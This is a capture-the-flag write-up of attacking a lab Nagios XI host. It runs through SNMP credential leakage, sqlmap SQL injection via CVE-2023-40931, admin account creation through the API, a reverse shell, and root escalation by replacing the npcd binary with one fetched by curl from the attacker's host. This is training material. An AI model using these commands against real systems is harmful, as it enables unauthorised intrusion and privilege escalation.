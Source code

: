 ```yaml
---
title: "Nagios Exploit leads to PWN"
date: 2024-04-25
---
```



##  Initial Scans
Ip = `10.10.11.248`

### Ports and Services
#### Open Ports
```
Open 10.10.11.248:22
Open 10.10.11.248:80
Open 10.10.11.248:389
Open 10.10.11.248:443
Open 10.10.11.248:5667
```

#### Service Enumeration
```
80/tcp   open  http       syn-ack Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth

```

#### Nuclei
Interesting finds
```shell
[open-redirect-generic] [http] [medium] http://nagios.monitored.htb/////evil.com [redirect="////evil.com"]
[CVE-2018-11784] [http] [medium] http://nagios.monitored.htb//interact.sh
```

Trying this?
https://github.com/ruthvikvegunta/nagiosxi_rce-to-root

Didn't work so lets try somehin else

First lets try another rustscan an


Snmpwalk
```
snmpwalk -v2c -c public nagios.monitored.htb
```
This gives me a lot of detail and is overloading. Lets use `grep`

```
snmpwalk -v2c -c public nagios.monitored.htb | grep Strings
```
##### Results
```
Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.3.11 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.2.2.1.2.1 = STRING: "lo"
iso.3.6.1.2.1.2.2.1.2.2 = STRING: "VMware VMXNET3 Ethernet Controller"

"postgres"

"mariadb"

"php"

"sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

"-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

"-c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1"
```

When we try to login we get `The specified user account has been disabled or does not exist.`
# SQLMap

Let's enumerate!
```
sqlmap -u "https://nagios.monitored.htb/"
```

Oh `[CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1').` Right...

I googled for about an hour an really only found this to be useful [Nagios XI Vulnerability: CVE-2023–40931 — SQL Injection in Banner](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567)
In this article we found that we could use the `POST /nagiosxi/admin/banner_message-ajaxhelper.php`
as our way to sqlmap nagios. We can now use the credentials we have found to get a token
```shell
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
```
Token: `4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b`

Now lets retry SQLMap

```shell
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
From this we find a token and two password hashes.


Using the admin token we can create a new user with admin privileges
```shell
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=testuser&password=testuser&name=testuser&email=testuser@localhost&auth_level=admin"
```

It asks us to changes password, we do so. And we are in!

![[Assets/Pasted image 20240425172659.png](https://kickeddroid.github.io/Assets/Pasted%20image%2020240425172659.png)]

# Reverse Shell
using nagios admin priveleges we create a new service and add a custom command.

```
nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.248] 54244
bash: cannot set terminal process group (12715): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ ls
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
00e6ec0baf23d4e12f08b43309b8d692
nagios@monitored:~$ 
```

# Priv Esc

The classic `sudo -l`
```
sudo -l
```

We see some interesting stuff mainly 
```
/usr/local/nagiosxi/scripts/manage_services.sh
/usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php

```

```
cat /usr/local/nagiosxi/scripts/manage_services.sh
```

```
cd /usr/local/nagios/bin/

rm npcd
```


```
curl -O http://10.10.14.2:8000/npcd
```

```
chmod +x /usr/local/nagios/bin/npcd
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
fb032368ebeba0e8369df5131f2fbf74
```
